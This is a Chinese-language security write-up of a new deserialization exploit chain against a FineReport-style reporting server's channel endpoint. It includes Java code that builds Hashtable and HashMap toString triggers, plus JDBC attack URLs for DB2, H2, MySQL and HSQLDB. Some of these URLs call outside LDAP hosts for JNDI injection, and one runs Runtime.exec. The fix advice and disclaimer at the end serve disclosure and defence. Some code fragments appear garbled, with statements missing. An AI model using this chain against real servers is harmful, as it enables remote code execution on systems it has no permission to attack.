0x01 起因 某次护网应急响应，发现了最新版的某报表的被打掉了，日记记录也是channel触发的反序列化，和springkill 大哥一起愉快调试两天了，想着已经玩了一个多月，差不多见光死了，就和大家分享下得了。
0x02 历史漏洞 某报表channel反序列化漏洞历史爆出三个链子，一个cb，一个singobject的二次反序列，一个Hibernate。下载最新版v10，查找黑名单
com/fr/serialization/blacklist.txt


可以看见最新版v10，这几个类已经在黑名单里面了。所以很明确，就是找一条新的gadget。
这边直接去找getter触发，找DruidXADataSource这个类非常合适，且不在黑名单里面。
这个类可以控制sql库的服务，链接url，以及查询语句，很容易就能想到利用druid去打jdbc。

可以看见没啥毛病。

既然打jbdc，就很多都能打了，实战中还得看服务器存在哪些数据库依赖。
可以参考su18的 https://su18.org/post/jdbc-connection-url-attack/。
既然要用getter去触发，也不在黑名单里面，这样找找，发现fastjson，jackson的原生序列化就很合适。




在这个类的tostring，会调用到
com.fr.json.revise.EmbedJson#encode

它里面会调用jackson的序列化，list直接反射修改为druid，从而触发druid的getXAConnection()。也就是只用了om.fr.json.JSONArray然后内部调用，直接就绕过jackson的黑名单太酷了。

0x05 两条jdk原生tostring 现在公开触发tostring的头部基本都在黑名单了。




所以现在需要找一条新的tostring。
javax.swing.UIDefaults.TextAndMnemonicHashMap
可以看到是map,然后调用了key的tostring，非常完美。
java.util.AbstractMap#equals
m是一个map，改成javax.swing.UIDefaults.TextAndMnemonicHashMap就可以走通，非常合理，java.util.AbstractMap是一个抽象类，所以我们只要找一个继承它又没有实现equals的方法就行了,感觉非常多了，haspmap，hashtable都可以。
hashtable触发tostring 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 public static Hashtable makeTableTstring (Object o) throws Exception{Map tHashMap1 = (Map) createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap" );Map tHashMap2 = (Map) createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap" );"yy" );"zZ" );"loadFactor" ,1 );"loadFactor" ,1 );Hashtable hashtable = new Hashtable ();1 );1 );null );null );return hashtable;
hashmap触发tostring 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 public static HashMap maskmapToString ( Object o1, Object o2) throws Exception{Map tHashMap1 = (Map) createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap" );Map tHashMap2 = (Map) createWithoutConstructor("javax.swing.UIDefaults$TextAndMnemonicHashMap" );null );null );"loadFactor" ,1 );"loadFactor" ,1 );HashMap hashMap = new HashMap ();Class node = Class.forName("java.util.HashMap$Node" );Constructor constructor = node.getDeclaredConstructor(int .class, Object.class, Object.class, node);true );Object node1 = constructor.newInstance(0 , tHashMap1, null , null );Object node2 = constructor.newInstance(0 , tHashMap2, null , null );Field key = node.getDeclaredField("key" );Field modifiers = Field.class.getDeclaredField("modifiers" );true );true );Field size = HashMap.class.getDeclaredField("size" );true );2 );Field table = HashMap.class.getDeclaredField("table" );true );Object arr = Array.newInstance(node, 2 );0 , node1);1 , node2);return hashMap;
0x06 一些坑点 默认包里面一些数据库是没有环境的，需要自己下载，如h2，ibm，postsql等，默认是hsqldb，好在hsqldb可以直接调用java的public static 方法，和官方包不同，需要自己去找方法调用。默认jdk是191，也就是jndi得用高版本jdk去绕过。一般用两种方式，一种利用利用本地Class作为Reference Factory，一种基利用LDAP返回序列化数据，触发本地Gadget。这里我是利用第二种直接本地gadget出触发

1 2 3 4 5 6 java.util.HashMap.readObject/java.util.Hashtable.readObject
0x07 一些jdbc ibm 1 2 druidDataSource.setUrl("jdbc:db2://127.0.0.1:5001/BLUDB:clientRerouteServerListJNDIName=ldap://10.0.0.67:1389/remoteExploit8;" );"com.ibm.db2.jcc.DB2Driver" );
h2 1 2 druidDataSource.setUrl("jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '//javascript\n" +"java.lang.Runtime.getRuntime().exec(\"open .\")'" );
mysql 1 druidDataSource.setUrl("jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=CommonsCollections6" );
hsqldb 1 2 druidDataSource.setValidationQuery("call \"javax.naming.InitialContext.doLookup\"('ldap://10.211.55.2:4444/123');" );"com.fr.third.org.hsqldb.jdbcDriver" );
修复建议 javax.swing.UIDefaults$TextAndMnemonicHashMap，com.fr.third.alibaba.druid.pool.xa.DruidXADataSource
com.fr.third.alibaba.druid.pool.xa.DataSource
com.fr.json.JSONArray 加入反序列黑名单，
https://help.fanruan.com/finereport/doc-view-4833.html
官方通告，升级至2024-05及之后版本。
声明 此文章 仅用于教育目的。请负责任地使用它，并且仅在您有明确测试权限的系统上使用。滥用此 PoC 可能会导致严重后果。